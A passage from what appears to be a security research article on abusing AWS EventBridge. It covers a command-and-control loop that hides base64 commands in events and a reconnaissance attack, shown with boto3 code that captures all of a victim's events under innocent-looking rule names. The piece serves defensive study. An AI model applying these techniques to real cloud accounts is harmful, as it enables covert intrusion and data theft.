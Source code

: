 'settings': "base64_encoded_command" # Hidden command
}
})
}]
)
A compromised Lambda in the victim account decodes and runs these commands, then encodes and sends results back through EventBridge (either via a rule targeting the eventbus or lambda/sqs/sns in their account), completing the control loop. In fact, if it is a lambda and if it has wide scope and permissions, it doesn't even need to be compromised. An attacker can misuse these permissions to achieve the same goal in feedback loop systems. The attack is particularly stealthy because it leverages legitimate AWS services and appears as standard JSON-formatted events, not suspicious network traffic. Network security controls like firewalls and VPC configurations are bypassed entirely since EventBridge is an allowed service.
### Attack 3: Reconnaissance - "Spying on Your Events"
**MITRE ATT &CK Connection:**Discovery (T1526), Collection (T1530)
After gaining access to a victim's AWS account, an attacker creates a rule within that account to capture all events flowing through the EventBridge. This passive reconnaissance technique allows them to collect valuable information about the victim's infrastructure, applications, and data without making suspicious API calls that might trigger alerts.
+------------------+ +-------------------+ +------------------+
| All Events | | Attacker's | | Attacker's |
| in Victim +------->| EventBridge +------->| Lambda |
| Account | | Rule | | Function |
+------------------+ +-------------------+ +--------+---------+
|
v
+--------+---------+
| Store or |
| Forward |
| Captured Data |
+------------------+
Reconnaissance Flow
The attacker creates a rule that captures all events:
# Create a rule that matches all events in the victim's account
events = boto3.client('events')
events.put_rule(
Name='system-diagnostic-collector',
EventPattern= {"source": [{"exists": true}]},
# Matches all events with any standard AWS event with "source" in it
# You could also use "source": [{"prefix": ""}] to match all events
State='ENABLED',
Description='System diagnostics collection' # Innocent-looking description
)
# Target a Lambda function the attacker controls within the victim's account
events.put_targets(
Rule='system-diagnostic-collector',
Targets=[{
'Id': 'DiagnosticsProcessor',